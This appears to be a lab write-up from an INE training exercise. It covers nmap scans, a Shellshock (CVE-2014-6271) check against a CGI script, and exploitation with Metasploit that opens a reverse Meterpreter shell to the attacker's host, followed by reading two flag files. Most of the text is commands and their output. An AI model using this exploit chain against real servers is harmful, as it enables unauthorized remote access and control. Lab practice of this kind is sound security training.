 # Target Info
*Domain*: `target1.ine.local`
*IP*: `192.63.116.3`

# Flags
1) *flag1*: `FLAG1_f5b44ed9212846ce9a13dceb7e7f0979`
2) *flag2* : `bf1a74fda9234e4b86b6b07419613536`
# Enumeration
## Port Scan
```shell
- sudo nmap --min-rate 10000 -p- -sV target1.ine.local 
	
	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.6 ((Unix))
	MAC Address: 02:42:C0:3F:74:03 (Unknown)
```

## Service Scan
```shell
- sudo nmap -sS -sV -A -T4 -oX target1 target1.ine.local

	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.6 ((Unix))
	|_http-title: Browser Detector
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.6 (Unix)
	MAC Address: 02:42:C0:3F:74:03 (Unknown)
	Device type: general purpose
	Running: Linux 4.X|5.X
	OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
	OS details: Linux 4.15 - 5.8
	Network Distance: 1 hop

```

### ShellShocl Vuln Check
```shell 
- sudo nmap -sV -p80 --script http-shellshock --script-args='uri=/browser.cgi' target1.ine.local

	 http-shellshock: 
	|   VULNERABLE:
	|   HTTP Shellshock vulnerability
	|     State: VULNERABLE (Exploitable)
	|     IDs:  CVE:CVE-2014-6271
	|       This web application might be affected by the vulnerability known
	|       as Shellshock. It seems the server is executing commands injected
	|       via malicious HTTP headers.
```

# Exploitation
## exploiting shellshock
```shell
# msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set lhost 192.63.116.2
set rhosts target1.ine.local
set targeturi /browser.cgi
run
## got meterpreter session
[*] Started reverse TCP handler on 192.63.116.2:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 192.63.116.3
[*] Meterpreter session 1 opened (192.63.116.2:4444 -> 192.63.116.3:50120) at 2025-05-13 01:41:29 +0530

# session
meterpreter > sysinfo
Computer     : target1.ine.local
OS           : Ubuntu 14.04 (Linux 6.8.0-40-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

# Flag1
shell 
cd /flag.txt
> FLAG1_f5b44ed9212846ce9a13dceb7e7f0979

# flag2
ls -la /opt/apache/htdocs/
cat /opt/apache/htdocs/.flag.txt
FLAG2_bf1a74fda9234e4b86b6b07419613536
```